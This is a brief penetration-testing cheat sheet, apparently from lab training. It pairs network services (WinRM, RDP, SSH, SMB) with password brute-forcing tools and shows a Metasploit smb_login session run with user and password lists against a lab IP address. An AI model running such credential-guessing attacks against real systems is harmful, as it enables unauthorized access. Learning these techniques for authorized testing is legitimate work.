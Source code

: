 
# WINRM -> NETEXEC
# RDP SSH -> HYDRA
# SMB -> HYDRA
# SMBV3+ -> metasploit
```shell-session
use auxiliary/scanner/smb/smb_login

user_file => user.list


msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list

pass_file => password.list


msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197

rhosts => 10.129.42.197

msf6 auxiliary(scanner/smb/smb_login) > run

```
